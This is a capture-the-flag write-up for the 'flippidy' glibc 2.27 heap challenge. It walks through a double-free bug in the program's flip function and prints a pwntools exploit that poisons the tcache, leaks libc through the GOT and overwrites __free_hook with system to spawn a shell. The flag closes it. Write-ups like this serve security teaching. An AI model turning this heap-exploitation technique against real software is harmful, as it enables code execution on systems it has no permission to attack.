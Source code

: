 # flippidy
## Overview
This is a glibc 2.27 heap challenge.
We have a program which allows us to create an array of strings.
We decide how many strings we want. Each string will be at most 48 characters long.

After creating the array of strings, we can 'flip' the array, which simply means we can switch the first element with the last element, the second element with the second last element, and so on.
The program does not give us a way to actually view our list of strings.

## The Menu
Something weird that left me confused is how the menu is implemented.
```c
void printMenu(){
  int i; // [rsp+Ch] [rbp-4h]
  puts("\n");
  for ( i = 0; i <= 3; ++i )
    puts(menu_entries[i]);
}
```

`menu_entries` is an array of strings, each of which represents a line in the program's menu.
```
.data:404020 off_404020      dq offset aMenu         ; DATA XREF: printMenu+2A↑o
.data:404020                                         ; "----- Menu -----"
.data:404028                 dq offset a1AddToYourNote ; "1. Add to your notebook"
.data:404030                 dq offset a2FlipYourNoteb ; "2. Flip your notebook!"
.data:404038                 dq offset a3Exit        ; "3. Exit"
.data:404040 aMenu           db '----- Menu -----',0 ; DATA XREF: .data:off_404020↑o
```

This works and it makes sense but it seemed overly complex for this program, it does not provide any advantage.
Turns out that it helps us develop the exploit.

## The Problem
The problem is exactly with this 'flip' functionality.
Looking at the code of the function, I immediately began to think what would happen in certain edge cases. Here is a commented decompilation of the function.
```c
unsigned __int64 flip()
{
  void **rightPtr; // rbx
  void **leftPtr; // rbx
  bool emptyLeft; // [rsp+Ah] [rbp-A6h]
  bool emptyRight; // [rsp+Bh] [rbp-A5h]
  int i; // [rsp+Ch] [rbp-A4h]
  char leftCopy[64]; // [rsp+10h] [rbp-A0h] BYREF
  char rightCopy[72]; // [rsp+50h] [rbp-60h] BYREF

  for ( i = 0; i <= notebookSize / 2; ++i )
  {
    memset(leftCopy, 0, sizeof(leftCopy));
    memset(rightCopy, 0, 64uLL);
    emptyLeft = 0;
    emptyRight = 0;
    // is the string from the left empty?
    if ( *((_QWORD *)notebookBuf + i) )
    {
      // if it's not, copy its content and free the chunk
      strcpy(leftCopy, *((const char **)notebookBuf + i));
      free(*((void **)notebookBuf + i));
    }
    else
    {
      // if it is, set the boolean
      emptyLeft = 1;
    }
    // do the same for the string from the right
    // note: with notebookSize = 0, this would access index minus 1, 
	// which contains the chunk's size.
    // this would lead to a segfault in the following strcpy.
    // with notebookSize = 1, this would access index 0, 
	// which is the same index we accessed earlier!
	// This effectively causes a double free.
    if ( *((_QWORD *)notebookBuf + notebookSize - i - 1) )
    {
      strcpy(rightCopy, *((const char **)notebookBuf + notebookSize - i - 1));
      free(*((void **)notebookBuf + notebookSize - i - 1));
    }
    else
    {
      emptyRight = 1;
    }
    // cancel both pointers from the list
    *((_QWORD *)notebookBuf + i) = 0LL;
    *((_QWORD *)notebookBuf + notebookSize - i - 1) = 0LL;
    if ( !emptyLeft )
    {
      // if left was not empty, make a new chunk with its content
      // and assign it to the right pointer
      rightPtr = (void **)((char *)notebookBuf + 8 * (notebookSize - i) - 8);
      *rightPtr = malloc(48uLL);
      strcpy(*((char **)notebookBuf + notebookSize - i - 1), leftCopy);
    }
    else
    {
      // else.... cancel it again lol?
      *((_QWORD *)notebookBuf + notebookSize - i - 1) = 0LL;
    }
    if ( !emptyRight )
    {
      // do the same for right pointer
      leftPtr = (void **)((char *)notebookBuf + 8 * i);
      *leftPtr = malloc(48uLL);
      strcpy(*((char **)notebookBuf + i), rightCopy);
    }
    else
    {
      *((_QWORD *)notebookBuf + i) = 0LL;
    }
  }
}
```

## The Exploit
Here is the relevant part of the script. 
You can find the full script and all other files below.
```python
# Make the list 1 string long
p.sendlineafter('how big', '1')

# The address of the menu array and of each string in it
menu_entries_arrayptr = 0x404020
menu_strings = [b'----- Menu', b'1. Add', b'2. Flip', b'3. Exit']
menu_entries = [next(elf.search(s)) for s in menu_strings]
menu_array = b''.join([p64(addr) for addr in menu_entries])

# Create a chunk and write the array's address to it
add(0, p64(menu_entries_arrayptr))

# Trigger the double free in flip, adding menu_entries_arrayptr to bin list
# Basically: chunk gets freed twice, first malloc gives us the chunk back
# and the menu array ptr is copied to it
# Second malloc gives us the same chunk again,
# and the menu array ptr is used as next ptr
# The tcache now has size 0 (2 frees 2 mallocs)
flip()

# The pointer at menu_entries_arrayptr was added to the tcache bin
# We can take it even if tcache now has size 0, there are no controls
# When we take it the size will underflow to 0xff,
# which means the next frees would go to fastbin
# So now we have a fake free chunk at the string '----- Menu' etc, 
# which is right after the menu entries array
# Modify first element of menu entries to point to puts got,
# so that we leak it when menu is printed
# Leave the other elements unmodified
# there is no need to change them and also cause I'm a good, well-mannered boy
# Write a pointer to menu_entries[0] at menu_entries[0]
# this makes a loop in the tcache list,
# it is basically an artificial double free which is awesome
add(0, p64(elf.got['puts']) + menu_array[8:] + p64(menu_entries[0]))


# the first element of the menu was replaced with a pointer to puts got
# Retrieve this leak and calculate libc address
p.recvline()
p.recvline()
puts_leak = u64(p.recv(6) + b'\x00\x00')
libc.address = puts_leak - libc.sym['puts']
log.info(f'Puts: {hex(puts_leak)}')
log.info(f'libc: {hex(libc.address)}')

# Now make use of the 'artificial double free'
# let's add __free_hook to the tcache bin list
# The tcache bin right now is menu_entries[0] -> menu_entries[0]
# We malloc to get the chunk at menu_entries[0], 
# write free_hook addr on it, 
# then we malloc again and get the same chunk again
# This second malloc, free_hook will be treated as next ptr,
# so will be added to tcache by tcache_put
add(0, p64(libc.sym['__free_hook']))
add(0, 'cute doggo lol')

# Next malloc gives us a chunk on free_hook, write pointer to system 
# Next call to free will call system instead
add(0, p64(libc.sym['system']))

# The tcache is now empty because free_hook was set to NULL
# So we can simply allocate a new chunk without error
# We set its contents to /bin/sh then we free it to call system('/bin/sh')
add(0, '/bin/sh\x00')
flip()
```

## Flag
dice{some_dance_to_remember_some_dance_to_forget_2.27_checks_aff239e1a52cf55cd85c9c16}
